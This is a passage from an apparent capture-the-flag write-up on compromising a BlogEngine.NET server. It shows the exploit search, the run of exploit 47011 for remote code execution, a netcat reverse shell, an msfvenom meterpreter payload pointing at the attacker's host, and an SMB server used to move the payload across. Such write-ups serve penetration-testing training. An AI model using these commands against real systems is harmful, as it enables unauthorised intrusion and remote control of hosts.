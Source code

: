 ```bash
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution                                  | https://www.exploit-db.com/exploits/47011
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                                               | https://www.exploit-db.com/exploits/47014
------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Results
```

A few of these looked extremely interesting, as they provided remote code execution via a vulnerable theme cookie. Especially [47011](https://www.exploit-db.com/exploits/47011) which included a python script that automated the theme upload via a simple to use cli and already had a reverse shell command staged. I pulled this script down and fixed a small error where a `=================================` string was left uncommented.

I then started up a netcat listener in a new window to catch a shell and attempted to trigger the RCE.

```bash
root@kali:~/ctf/exploits# python 47011.py -t $ATTACKTARGET -u admin -p 1qaz2wsx -l 10.10.7.59:443
```

```bash
root@kali:~# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.7.59] from (UNKNOWN) [10.10.167.66] 49241
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

While this gave me a shell on the host, it was about as limited as it could be. My goal became to escalate this shell to something a bit stabler. Preferably a meterpreter shell. With this in mind I decided to craft a new executable reverse shell that I could catch with the `multi/handler`. I started a listener in msfconsole on port 4444 in preparation.

```bash
root@kali:~/ctf/transfer# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.7.59 LPORT=4444 -f exe -o hello.exe
```

With an exploit ready, I decided to attempt to transfer it using impacket's smb server.

```bash
root@kali:~/ctf/transfer# impacket-smbserver -smb2support TX $PWD
```

```powershell
dir \\10.10.7.59\TX\
c:\windows\system32\inetsrv>dir \\10.10.7.59\TX\
 Volume in drive \\10.10.7.59\TX has no label.
 Volume Serial Number is ABCD-EFAA
 Directory of \\10.10.7.59\TX
11/18/2020  02:38 PM            73,802 hello.exe
               1 File(s)         73,802 bytes
               0 Dir(s)  18,391,148,419,302,293,504 bytes free
c:\windows\system32\inetsrv>pwd
cd c:\windows\Temp\
c:\windows\system32\inetsrv>cd c:\windows\Temp\
dir
c:\Windows\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Windows\Temp
11/18/2020  02:44 PM    <DIR>          .
11/18/2020  02:44 PM    <DIR>          ..
08/06/2019  01:13 PM             8,795 Amazon_SSM_Agent_20190806141239.log
08/06/2019  01:13 PM           181,468 Amazon_SSM_Agent_20190806141239_000_AmazonSSMAgentMSI.log
```